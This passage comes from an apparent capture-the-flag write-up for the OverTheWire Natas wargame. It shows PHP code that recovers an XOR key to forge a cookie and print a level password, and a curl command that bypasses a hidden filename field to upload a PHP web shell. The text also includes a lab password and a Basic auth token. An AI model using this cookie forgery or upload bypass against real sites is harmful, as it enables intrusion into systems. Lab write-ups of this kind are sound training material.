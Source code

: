 ```php
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

$key = xor_encrypt(json_encode($defaultdata));
echo "key: $key \n";
```

- running it and we got this

```
key: qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq
```

- from here we assume the key is `qw8J` because the value is repeated to match the lenght of the text.
- we can now use the key inside the code we previously make, change the defaultdata value to `"yes"`, to get the encoded cookie.

```
cookie: ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
```

- then we simply change the cookie value in browser, and refresh the page.
- and then we get the password

```
The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3<br>

```

## NATAS12

- we got an upload form, seems like we need to exploit file upload vulnerability.
- then upload our shell to it.
- we first try to upload an empty `shell.php` file, then we got the name changed to some random string with extension of `.jpg`.
- inspecting the source code, we noticed, that there is a hidden input field that set the name before we upload

```php
<input type="hidden" name="filename" value="<? print genRandomString();?>.jpg" />
```

- we somehow need to bypass this and one of the solution is to make our own request using curl.
- to upload file using curl we can use the `-F` tags,
- this will add `enctype="multipart/form-data`.
- don't forget to specify our Authentication token with `-H` tag.
- our curl command will look something like this.

```sh
curl \
-F 'filename=shell.php' \
-F 'uploadedfile=@./shell.php' \
-H 'Authorization: Basic bmF0YXMxMjpFRFhwMHBTMjZ3TEtIWnkxckRCUFVaazBSS2ZMR0lSMw==' \
http://natas12.natas.labs.overthewire.org/index.php
```
